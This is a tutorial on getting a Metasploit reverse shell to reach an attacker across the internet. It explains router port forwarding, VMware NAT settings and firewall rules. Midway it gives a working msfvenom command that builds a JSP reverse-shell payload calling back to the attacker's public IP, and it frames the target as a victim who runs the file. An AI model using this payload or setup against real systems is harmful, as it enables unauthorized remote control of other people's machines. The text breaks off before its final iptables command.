

We wish to establish a remote connection over internet:
The scenario is that the victim machine has downloaded a malicious file, and run it on his system. The malicious program will send the network packet back to the attacker machine. So those network packets must pass through the attacker's router or firewall. If the port used by the malicious program is not open on the attacker router, the program will never communicate with the attacker, so the attack won't be successful.
When simulating an attack on a local network, most of the time, the communication will never pass through the router so the meterpreter connection can be made and the attacker can open a reverse shell.
For this example, we're going to create a malicious program with msfvenom. Instead of providing our private address, we will provide our public address. So when the program will reverse the connection, the router has to know which machine is listening on that port and transfer the network packet to this machine. That's where port forwarding will be necessary.
To find your public IP address you can check it on different websites such as whatismyip.com. For your private address and the IP address of the router, it will depends on if you're on Linux of Windows.
Msfvenom is a tool that you can get on Kali Linux, it is an amazing tool that can generate a malicious payload. So we can create a payload to open a reverse shell when the process is running on a web server for example.
Msfvenom -p java/jsp_shell_reverse_tcp LHOST=[Your public IP address] LPORT=[Port to listen] -f raw > shell.jsp
On this example, we are creating a malicious JSP payload and store it on a file called "shell.jsp".
We have created our malicious file, but since that we won't be in the same network as the victim machine, we must modify some settings in our router. Port forwarding is to indicate to our router that we are going to open a specific port for a service and whenever there is a network packet for that specific port then the router must send the packet to this IP address.
Choose a port, it can be different from the one on the screenshot but make sure to always choose the same one so you don't have to do another port forwarding in your router. For the field "Server IP Address", enter your local IP address of your system and not your virtual machine even if open the connection with your virtual machine.
Now the router will forward every packet that has 4444 as destination port to the IP address 10.0.0.2
Our metasploit console is running on our virtual machine, we must forward the packet received by our local machine to our virtual machine. For this tutorial, I'll modify the network settings on VMware.
First step, set the network adapter to NAT, so that our local machine will act like a router for the virtual machine, and we are going to do another port forwarding from the local machine to the virtual machine.
Then open the Virtual Network Editor (Edit -> Virtual Network Editor), select NAT settings, click on "add" under the section Port Forwarding and fill the information needed for the port forwarding.
It will also be necessary to create a system firewall rule, otherwise the system firewall will block the inbound traffic, because the port is not open by default.

After clicking on new rule, select the port number and specify the protocols to open a reverse shell on the victim machine, then allow the connection.
If the traffic is still not passing through the VM, maybe the system firewall on your VM is also blocking the port. To open a port in the firewall, you can use the command below. Iptables enables to manage the rule in the Linux system.